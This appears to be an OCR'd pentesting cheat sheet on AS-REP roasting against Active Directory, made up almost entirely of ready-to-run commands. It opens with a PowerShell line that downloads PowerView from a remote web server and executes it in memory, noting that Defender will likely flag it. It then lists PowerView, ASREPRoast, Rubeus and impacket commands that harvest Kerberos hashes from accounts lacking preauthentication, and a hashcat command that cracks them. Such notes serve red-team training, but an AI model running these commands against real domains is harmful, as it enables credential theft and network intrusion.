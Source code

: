     First let’s import PowerView.ps1 into Memory with
    IEX (New-Object Net.WebClient).DownloadString('http://werbserver:80/PowerView.ps1')

    !will propably flagged by the defender

    Now with PowerView in memory on a Domain-Joined Machine we can simply run

    Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose

    OR

    Get-DomainUser victimuser | Convert-FromUACValue

    
    Exploit

    Armed with our target user with DONT_REQ_PREAUTH set we can now request the relevant ticket to crack offline. Sadly PowerView.ps1 does not have a ASREP Roasting Function included however the author harmj0y or PowerView created a fantastic module to do this with
    
    https://github.com/HarmJ0y/ASREPRoast

    Simply Import the Module with

    Import-Module .\ASREPRoast.ps1

    Get-ASRepHash -Domain m0chanAD.local -UserName m0chan

    This will return a Hash which you can crack with Hashcat with the below Syntax

    hashcat64.exe -a 0 -m 7500 asrep.hash /wordlists/rockyou.txt



            Rebeus


    The asreproast functionality of Rebeus actually is intended to fully replace harmj0ys ASREPRoast Powershell module I coupled with PowerView in the section above.

    Exploitation

    First we can try to Roast all Users in the Current Domain (May be Noise)
    PS >  .\Rubeus asrep /format:hashcat

    ASREP All Users in a Specific OU (Good if Organization has all Service Accounts in a Specific OU)

    PS > .\Rubeus asrep /ou:OU=SerivceAcc,DC=m0chanAD,DC=local /format:hashcat /outfile:C:\Temp\Hashes.txt

    Roasting a Specific Users
    PS > .\Rubeus asrep /user:mssqlservice /format:hashcat


-From Linux

                GetNPUsers.py

    https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py

    $ python GetNPUsers.py m0chanAD/ -usersfile TargetUsers.txt -format hashcat -outputfile hashes.asreproast


        This script can dynamically obtain the list of users in the domain
